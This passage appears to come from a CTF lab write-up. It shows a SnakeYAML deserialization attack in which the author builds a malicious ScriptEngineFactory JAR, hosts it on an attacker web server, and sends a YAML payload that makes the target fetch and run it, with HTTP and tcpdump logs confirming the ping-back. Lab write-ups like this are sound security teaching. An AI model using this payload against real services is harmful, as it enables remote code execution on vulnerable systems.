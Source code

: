 

    oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java 
    oxdf@parrot$ jar -cvf ping.jar -C src/ .
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1607) (out= 668)(deflated 58%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1480) (out= 392)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)



The resulting JAR file has a similar structure as was being requested
across multiple requests in the first attempt:



    oxdf@parrot$ jar -tf ping.jar 
    META-INF/
    META-INF/MANIFEST.MF
    artsploit/
    artsploit/AwesomeScriptEngineFactory.class
    artsploit/AwesomeScriptEngineFactory.java
    META-INF/services/
    META-INF/services/javax.script.ScriptEngineFactory
    oxdf@parrot$ cat src/META-INF/services/javax.script.ScriptEngineFactory 
    artsploit.AwesomeScriptEngineFactory



I'll move `ping.jar` into my directory hosted by the Python webserver,
and send the payload:



    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/ping.jar"]
      ]]
    ]



First it's requested from the HTTP server (twice for some reason):



    10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -



Then it pings my VM:



    oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    07:16:58.677743 IP 10.10.10.227 > 10.10.14.7: ICMP echo request, id 3, seq 1, length 64
    07:16:58.677755 IP 10.10.14.7 > 10.10.10.227: ICMP echo reply, id 3, seq 1, length 64
